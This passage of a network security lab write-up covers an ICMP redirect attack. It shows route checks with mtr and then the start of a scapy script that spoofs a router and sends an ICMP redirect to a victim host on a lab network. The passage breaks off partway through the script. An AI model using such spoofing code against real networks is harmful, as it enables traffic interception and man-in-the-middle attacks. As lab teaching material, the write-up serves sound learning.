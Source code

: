    * ![alt text](image-23.png)
   * now we can see that the server is replying, so they can communicate correctly.
* Second step, check the normal route from the victim to the host
  * from victim machine execute the following command
    > mtr -n 192.168.60.5
  * ![alt text](image-24.png)
  * now we see that the victim sends to the intermediate router 10.9.0.11 (correct router)
  * send it sends the message to the server **192.168.60.5**
  * this is the normal way
* Third Step, we need to craft the python code on the **attacker machine** to send the spoofed ICMP redirect message
  * this is the code which you can use
  ```python                                
      #!/usr/bin/python3 -> telling linux to run the script using python3

      from scapy.all import * # importing all important functions from scapy library

      '''
         creates the outer ip packet 
            10.9.0.11 -> spoofed router, pretending to be the real router
            10.9.0.5 -> victim ip where the spoofed ICMP redirect will be sent
      '''
      ip = IP(src= '10.9.0.11', dst = '10.9.0.5')

      # creating icmp redirect packet type = 5, 
      # code = 1 means host redirect as explained before
      icmp = ICMP (type=5, code=1)

  ```